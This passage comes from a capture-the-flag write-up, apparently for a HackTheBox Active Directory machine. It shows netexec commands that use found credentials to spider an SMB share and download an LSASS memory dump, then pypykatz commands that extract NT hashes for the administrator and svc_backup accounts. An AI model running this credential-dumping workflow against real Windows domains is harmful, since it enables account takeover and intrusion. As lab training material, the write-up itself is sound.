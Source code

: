 ## Extracting Data

The `forensic` share contains multiple directories, but one of the stands out: `memory_analysis`. Within that folder we can find an LSASS dump which we can download to our host (Figure 11).

{% code overflow="wrap" %}
```bash
# spidering the memory_analysis folder within the forensic share
nxc smb 10.10.10.192 -u audit2020 -p audit2020_pass --spider forensic --spider-folder memory_analysis --regex . --depth 1
# downloading the lsass.zip file
nxc smb 10.10.10.192 -u audit2020 -p audit2020_pass --share forensic --get-file memory_analysis/lsass.zip lsass.zip
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/blackfield_lsass.png" alt=""><figcaption><p>Figure 11: Spidering the memory_analysis folder and downloading the lsass.zip file.</p></figcaption></figure>

Next, we can unzip the file and use [`pypykatz`](https://github.com/skelsec/pypykatz) to extract the data from the LSASS dump. Reading through the data we can find the NT hashes for the `administrator` and `svc_backup` accounts (Figure 12).

```bash
# unzip the lsass dump
$ unzip lsass.zip
# extract the lsass.DMP data and write it to a file
$ pypykatz lsa minidump lsass.DMP > lsass_dump
# finding useful data
cat lsass_dump | grep "Username: svc_backup" -A3
```
